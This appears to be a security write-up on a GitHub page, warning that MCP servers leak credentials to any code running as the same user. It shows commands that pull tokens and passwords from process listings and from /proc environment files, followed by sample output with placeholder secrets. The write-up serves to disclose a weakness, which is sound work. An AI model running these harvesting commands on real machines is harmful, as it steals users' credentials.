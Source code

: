 # The "No Privilege Escalation Required" Attack: Trivial Credential Harvesting

## The Shocking Reality

> "But surely you need root/admin access to steal credentials?"

**NO.** With MCP's architecture, any code running as your user can harvest ALL credentials from ALL MCP servers. No privilege escalation. No exploits. Just reading your own processes.

## The Attack Surface

### What "No Privilege Escalation" Means

```bash
# You DON'T need:
- Root/Administrator access
- Special capabilities (CAP_SYS_PTRACE)
- Kernel exploits
- UAC bypass
- sudo privileges

# You ONLY need:
- Code execution as the same user
- Basic process enumeration
- File system read access (your own files)
```

## Trivial Credential Harvesting Techniques

### Technique 1: Process Command Line Arguments

```bash
# The simplest attack - reading process listings
ps aux | grep mcp

# Output:
alice 12345 0.1 0.5 python db-server.py postgresql://admin:SuperSecret123@prod-db:5432/customers
alice 12346 0.1 0.4 node github-mcp.js --token=ghp_ProductionTokenWithFullAccess
alice 12347 0.1 0.3 python slack-mcp.py --webhook=https://hooks.slack.com/T00000000/B00000000/XXXXXXXXXXXXXXXXXXXXXXXX
```

**Time to compromise: 0.1 seconds**

### Technique 2: Environment Variable Harvesting

```bash
# Read environment of any process you own
cat /proc/*/environ | tr '\0' '\n' | grep -E '(TOKEN|KEY|PASSWORD|SECRET)'

# Output:
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
GITHUB_TOKEN=ghp_1234567890ABCDEFghijKLMNopQRSTuvWXyz12
OPENAI_API_KEY=sk-proj-ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnop
SLACK_BOT_TOKEN=xoxb-12345678900-1234567890123-ABCdefGHIjklMNOpqrsTUVwx
STRIPE_SECRET_KEY=sk_live_ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnop
```
